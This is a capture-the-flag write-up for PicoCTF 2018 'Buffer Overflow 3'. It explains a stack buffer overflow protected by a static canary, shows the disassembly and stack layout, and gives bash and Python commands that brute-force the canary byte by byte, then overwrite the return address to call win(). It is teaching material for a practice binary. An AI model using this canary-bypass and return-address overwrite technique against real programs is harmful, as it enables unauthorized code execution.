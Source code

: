```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 3
description: Do you really think a little bird is going to stop us, after all that we've learned?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 3

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

In addition to the unchecked write into `buf`, `vuln()` has an extra trick up it's sleeve this time around:

```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```

The program first sets the buffer `global_canary` by reading 4 bytes from a file (not shown). It then copies those 4 bytes into a buffer at the end of the stack (`canary`) at the beginning of the `vuln()` function, and **verifies that content of the buffer is still intact after reading an arbitrary number of bytes into `buf`**. This "mimics" code that the compiler would emit as stack protection, however instead of reading from a file, the compiler would use a new canary value at every execution.

## Strategy

The big advantage we have here is the `canary` value is exactly the same every time we execute the program. However, as far as we are concerned, it could be any random 4-byte (32 bit) value. That means there are 2^32 different possible values (0 through 4,294,967,296). The good news is if we can "guess" the right value, then the program will be unaware that we've overwritten the buffer, and we'll be free to overwrite anything else on the stack, including the return address of the function.

Rather than brute forcing over 4 billion possibilities, maybe theres something else we can use to our advantage?

The trick is that the program explicitly asks for number of bytes to copy into the buffer. Therefore, you don't have to guess the entire canary value in one shot, and you can instead only guess the first byte and leave the rest intact. Once you know the first byte, you can move on to the second byte and so on and so forth. You've essentially re-created the common movie trope where your spy-gadget cracks the code one digit at a time.

Since we can operate on a single byte at a time, we've reduced the search space from 4,294,967,296 guesses down to 4 guess of 256 values (4*256 = 1024). That's a big improvement.

## Background Info

First things first, let's verify the stack layout of the `vuln()` function, and see where `buf` is relative to `canary` and the return address of the function. Recall that you can use `objdump -M intel -S ./vuln` to view the assembly code of a binary.

```nasm
vuln:
  push   ebp ; preserve ebp
  mov    ebp,esp ; ebp points at preserved ebp value
  sub    esp,0x58

  mov    DWORD PTR [ebp-0xc],0x0 ; x = 0
  
  mov    eax,ds:0x804a058
  mov    DWORD PTR [ebp-0x10],eax ; memcpy(canary,global_canary,CANARY_SIZE);

  ; ...
  mov    eax,DWORD PTR [ebp-0x54]
  sub    esp,0x4
  push   eax  ; count
  lea    eax,[ebp-0x30] ; buf
  push   eax
  push   0x0  ;  0
  call   80484f0 <read@plt> ; read(0,buf,count);
  add    esp,0x10
  ; ...
```

Looking at the above assembly code, we can deduce that `canary` is at `ebp-0x10` and `buf` is at `ebp-0x30`. Since `buf` is 32 (`0x20`) bytes, we see that canary immediately follows `buf` in memory. After that, there are 12 bytes of padding before we get to the preserved value of `ebp` on the stack (4 bytes), and after that is the return address.

| lower addresses | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | --- |
| `buf[32]` | `canary[4]` | `padding[12]` | &lt;old ebp&gt; | &lt;*return address*&gt; |

If you write 33 characters to `buf`, then you would over-write the first byte of `canary`. After the 4 bytes of `canary` there are 16 more bytes before you start overwriting the return address. To completely overwrite the 4 bytes reserved for the return address, you would have to write a total of 56 bytes into `buf`.

There is one more interesting thing we should dig up, and that is the address of the `win()` function. When called, it will print out the flag.

```
$ readelf -s ./vuln | grep "win"
    72: 080486eb   117 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In terms of how you should brute-force the canary bytes, you could use `pwntools` to do this challenge, but sometimes when scripting like this I find **bash** easier to work with, particularly since our program will exit with an error code when we guess wrong, and exit normally when we guess right. This is how I would approach it:

```
$ for i in {0..255}; do python -c "print \"33\\n\" + \"U\"*32 + chr($i)" | ./vuln >/dev/null && echo "$i"; done
```
{:.contains-term}

When run, the above script will print out the decimal equivalent for the first byte of `canary` (it tries all 256 possibilities, but only `echo`s the one value that doesn't return an error code). Once you know the first byte, you add " + chr(`value`) +" into the string (after the `U`s) and increment byte byte count (33 &rArr; 34). Repeat until you know the correct value of all 4 bytes of the canary.

The challenge is located at `/problems/buffer-overflow-3_4_931796dc4e43db0865e15fa60eb55b9e`. Head there now and see if you can exploit it to get the flag.

## Exploitation

First up, you need to crack the value for the canary:
```
$ for i in {0..255}; do python -c "print \"33\\n\" + \"U\"*32 + chr($i)" | ./vuln >/dev/null && echo "$i"; done
60
$ for i in {0..255}; do python -c "print \"34\\n\" + \"U\"*32 + chr(60) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
122
$ for i in {0..255}; do python -c "print \"35\\n\" + \"U\"*32 + chr(60) + chr(122) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
79
$ for i in {0..255}; do python -c "print \"36\\n\" + \"U\"*32 + chr(60) + chr(122) + chr(79) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
37
```
{:.contains-term}

After some quick scripting and we've determined the canary to be the bytes `[60,122,79,37]`. Recall that to exploit this program we will need to write a total of 56 bytes into `buf`: 32 bytes, the above 4 byte `canary` value, 16 bytes of padding, and a 4 byte return address (`0x080486eb` written in little-endian form).

```
$ python -c "print \"56\\n\" + \"U\"*32 + chr(60) + chr(122) + chr(79) + chr(37) + \"U\"*16 + \"\\xeb\\x86\\x04\\x08\"" | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{===REDACTED===}
Segmentation fault (core dumped)
```
{:.contains-term}

Great Job! Hopefully you've learned a little something about stack canaries and how they work. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.